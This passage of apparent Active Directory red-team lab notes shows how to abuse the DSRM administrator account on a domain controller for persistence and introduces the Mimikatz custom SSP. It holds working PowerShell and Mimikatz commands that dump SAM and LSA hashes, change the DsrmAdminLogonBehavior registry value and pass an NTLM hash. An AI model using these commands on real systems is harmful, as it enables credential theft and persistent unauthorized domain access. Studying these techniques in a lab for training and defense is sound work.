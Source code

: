 • After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

![image](https://user-images.githubusercontent.com/40224197/211095052-9635bbf3-b88e-4c08-8c38-049ebfb8a9eb.png)

#### Dump DSRM password (needs DA privs)
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

#### Compare the Administrator hash with the Administrator hash of below command
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### First one is the DSRM Local Administrator

#### Since it is the local administrator of the DC, we can pass the hash to authenticate. But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```powershell
Enter-PSSession -Computername dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

#### Use below command to pass the hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorpdc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

ls \\dcorp-dc\C$
```

# Learning Objective 11

Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.

# Custom SSP

• A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:

– NTLM
– Kerberos
– Wdigest
– CredSSP

• Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
